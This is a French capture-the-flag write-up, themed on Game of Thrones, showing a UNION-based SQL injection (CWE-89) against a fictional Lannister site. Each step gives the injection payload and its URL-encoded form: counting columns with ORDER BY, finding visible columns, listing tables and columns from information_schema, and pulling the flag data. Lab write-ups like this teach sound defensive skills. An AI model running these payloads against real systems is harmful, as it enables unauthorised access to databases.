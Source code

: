 ```yaml
---
title: Write-up 3
next: "/write-ups/wu4"
prev: "/write-ups/wu2"
---
```


# 🗂️ Injection SQL (CWE-89) UNION

## 🎯 Objectif
Grâce au passe récupéré, John infiltre Castral-Roc et découvre un livre verrouillé répertoriant les armes Lannister. Grâce à une injection SQL Union, il y accède et trouve la localisation du feu grégeois, une menace pour la flotte des Stark.

**Flag attendu :** ville:emplacement

---

## ⚙️ Environnement
- **Prérequis :** Etre connecté avec le cookie de session du garde

---

## 🚀 Étape 1 : Déterminer le nombre de colonne de la bdd : 

```
' ORDER BY 1 --
```

Ne pas oublier d'encoder l'url, ce qui donne .../famillelannister.php?member=%27+ORDER+BY+1+--+

On incrémente le nombre jusqu'a obtenir une erreur, dans notre cas lorsque l'on rentre 3 nous otenons une erreur, ansi le nombre de colonne est le dernier chiffre valide donc 2.

---

## Étape 2 : Identifier les colonnes visibles

```
' UNION SELECT 1,2 --
```

Une fois l'url encodée : 
http://castral-roc.lannisport.south/famillelannister.php?member=%27+UNION+SELECT+1,2+--+

Ici si nous la bdd nous retourne 1:2 cela indique que nous pouvons exploiter les colonnes 

---

## Étape 3 : Déterminer le nom des tables de la bdd 

```
' UNION SELECT table_name,table_schema FROM information_schema.tables --
```

Encodé : 
http://castral-roc.lannisport.south/famillelannister.php?member=%27+UNION+SELECT+table_name,table_schema+FROM+information_schema.tables+--+

On trouve ici : 

**battle_ressources : lannisport_db**

**lannister_family : lannisport_db**

---

## Étape 4 : Déterminer le nom des colonnes de la table battle_ressources 

```
' UNION SELECT column_name,data_type FROM information_schema.columns WHERE table_name='battle_ressources' --
```

http://castral-roc.lannisport.south/famillelannister.php?member='+UNION+SELECT+column_name,data_type+FROM+information_schema.columns+WHERE+table_name='battle_ressources'+--+

On trouve : 

**emplacement : varchar**

**id : int**

**type : varchar**

**ville : varchar**

---

## Étape 5 : 

```
' UNION SELECT type, CONCAT(ville,' ' ,emplacement) FROM+battle_ressources -- 
```

http://castral-roc.lannisport.south/famillelannister.php?member='+UNION+SELECT+type,+CONCAT(ville,'+',emplacement)+FROM+battle_ressources+--+

On trouve alors : 

Feu Grégeois : Castral Roc Cave secrète sous la forteresse